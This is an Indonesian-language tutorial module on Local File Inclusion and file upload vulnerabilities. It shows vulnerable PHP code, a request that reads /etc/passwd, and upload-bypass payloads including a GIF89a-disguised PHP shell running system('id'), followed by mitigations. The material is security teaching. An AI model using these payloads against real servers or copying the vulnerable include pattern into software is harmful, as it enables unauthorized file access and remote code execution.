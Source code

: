 # File Inclusion dan File Upload

## **&#9888;** Sebelum Lanjut Membaca .... 
Segala bentuk kegiatan **File Inclusion** atau **File Upload** tanpa ada persetujuan dan izin dari pemilik sistem/aplikasi merupakan **illegal**.

Materi yang dipaparkan dalam modul ini untuk keperluan edukasi/pembelajaran, sehingga tidak membenarkan segala aktivitas **illegal**.

## Definisi File Inclusion
Local File Inclusin (LFI) merupakan kerentanan pada aplikasi web, yang dimana kerentanan ini memungkinkan penyerang untuk `menyertakan`, `membaca` atau `mendownload` file lokal yang tersimpan pada server.

Kerentanan ini terjadi ketika aplikasi web menerima parameter file dari pengguna tanpa adanya validasi di parameter tersebut.

### Cara Kerja Local File Inclusion
Local File Inclusion memanipulasi parameter yang ada aplikasi web untuk mengekspos file sensitif yang terdapat pada server.

![lfi](https://miro.medium.com/v2/resize:fit:644/1*UPMlwBWgKMSUzSvY5mt5uw.png)

Berikut adalah contoh sebuah code yang rentan terhadap **Local File Inclusion**

```php
<?php
if (isset($_GET['page'])) {
    $page = $_GET['page'];
    include($page);
} else {
    echo "Page not found.";
}
?>
```

Contoh eksploitasi pada kerentanan LFI:
```
# request parameter
http://localhost:3000/lfi.php?page=apcb.php

# response
Hello World!

# request parameter
http://localhost:3000/lfi.php?page=/etc/passwd

#response
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
```

### Mitigasi pada Local File Inclusion
Untuk melakukan mitigasi pada kerentanan **Local File Inclusion** kita bisa menggunakan input validation atau sanitization.

Contoh kode yang telah menerapkan `whitelisting`:
```php
<?php
$whitelist = ['apcb.php', 'secret.txt'];

if (isset($_GET['page'])) {
    $page = $_GET['page'];
    if (in_array($page, $whitelist)) {
        include($page);
    } else {
        echo "Page not found.";
    }
} else {
    echo "Page not found.";
}
?>
```

## Definisi File Upload
File Upload Vulnerability merupakan kerentanan yang dimana web server memperbolehkan user untuk mengunggah file tanpa adanya validasi seperti **nama file, tipe file, konten file,** dan **ukuran file**.

### Cara Kerja File Upload
File Upload terjadi karena pada web server tidak adanya pembatasan file yang akan diupload oleh user, disisi lain pihak developer merasa fiturnya aman yang sebenarnya dapat mudah untuk dilakukan **bypass**.

![file-upload](https://www.cobalt.io/hs-fs/hubfs/file-upload-vulnerabilities-example.png)

Contoh cara exploitasi pada kerentanan File Upload:

- Menggunakan double extension
```
file.jpg.php
```
- Menggunakan null byte
```
file.php%00.gif
```
- Manipulasi konten dengan `GIF89a;`
```
POST /images/upload/ HTTP/1.1
Host: target.com
...

---------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="setya404.php"
Content-Type: image/gif

GIF89a; <?php system("id") ?>
```

![chaining](https://pbs.twimg.com/media/F-FZQHabYAAqUhW.jpg:large)

### Mitigasi File Upload
1. Memperbolehkan spesifik tipe file
2. Melakukan verifikasi pada tipe file
3. Set panjang nama file dan besar ukuran file
4. Simpan file yang terupload diluar web folder

## Referensi
- [Understanding Local File Inclusion](https://brightsec.com/blog/local-file-inclusion-lfi/)
- [Understanding File Upload Vulnerability](https://cyberw1ng.medium.com/understanding-file-upload-vulnerabilities-in-web-app-penetration-testing-6de583fba63f)
- [Payload Local File Inclusion & Arbitary File Upload](https://github.com/daffainfo/AllAboutBugBounty/)